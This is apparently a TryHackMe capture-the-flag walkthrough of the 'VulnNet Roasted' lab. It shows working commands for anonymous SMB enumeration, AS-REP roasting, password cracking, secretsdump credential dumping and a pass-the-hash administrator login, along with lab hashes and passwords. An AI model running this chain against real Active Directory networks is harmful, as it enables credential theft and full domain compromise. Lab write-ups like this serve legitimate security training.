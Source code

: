 ```yaml
---

title: Walkthrough - VulnNet Roasted
published: true
---
```


Windows Server, Active Directory, Enumeration, Kerberos, Roasting, SMB, evil-winrm. VulnNet Entertainment quickly deployed another management instance on their very broad network...

[https://tryhackme.com/room/vulnnetroasted](https://tryhackme.com/room/vulnnetroasted)

* * *

## Notes

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 20:07:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
```

- `smbclient -L 10.10.65.165` we are allowed to see shars anonymously.

```
Password for [WORKGROUP\0xskar]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.65.165 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Lets check out what is in the Anonymous shares, and download them.

- `smbclient \\\\10.10.65.165\\VulnNet-Business-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`
- `smbclient \\\\10.10.65.165\\VulnNet-Enterprise-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`

Lots of names in these files, lets try making a list and gathering credentials.

```
alexa
whitehat
jack
goldenhand
tony 
skid
johnny 
leet
```

- check which shares are readable or writable `smbmap -u anonymous -H 10.10.181.27`
- since we have access to `IPC$` anonymously, we can use impacket lookupsid to list domain users `python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.181.27 | tee users.txt` and save them to another file so we can extract the users

```
[*] Brute forcing SIDs at 10.10.181.27
[*] StringBinding ncacn_np:10.10.181.27[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

- extract the users so we can use the userfile with GetNPUsers.py to find users without Kerberos pre-authentication.
- `grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users-cut.txt` 

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py \                                     
> -dc-ip 10.10.220.192 \
> -usersfile users-cut.txt \
> -no-pass \
> vulnnet-rst.local/
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bd77ca3bbc7b36c490b15c39c24b304b$30c3c9569c4c75a02e00092806aaf8dd28075a64be0d5fe1cd91729db5ccaf7c53b2a6d27666f3a182b1cb143515d79eb2623d3de05306300efaabaed91cde2cca74ac40ddf335994becac4b915538a2f49cff101261958141f7c2f0dd24828413183d44d8d25b1d3ec77c417ef1e4f577b31a2e0d751def5db906885e16291c49f076660a666b0a8e1a3152dbf50cb58141b7b3f9244fe34bf1d16115555edca83894e65c1bd55ea250f5eb2685c72e1152b5a2390379f56fa78596315328cf64931caba3e73e91703684063987f6574e2f80b7711fc36271dd4805ef9d3b6e37e1ab80140b87ef647d8977adf1accac2859b9989e6
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- crack users hash `john t-skid_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- `tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)`
- `t-skid:tj072889*`

Using these credentials we are not able to access the NETLOGON share on Samba

Within the VBS script file on the share we fine more credientials we can use to access the system

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

- `evil-winrm -i 10.10.220.192 -u a-whitehat -p "bNdKVkjv3RR9ht"`

* * * 

## What is the content of user.txt?

```
Directory: C:\users\enterprise-core-vn\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/13/2021   3:43 PM             39 user.txt
```

* * * 

## What is the content of root.txt?

We can use impackets secretsdump.py to dump hashes

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.220.192`

With the administrator's hash we can connect and get the system flag.

- `evil-winrm -i 10.10.220.192 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

![](/assets/vulnnet-roasted01.png)

* * * 

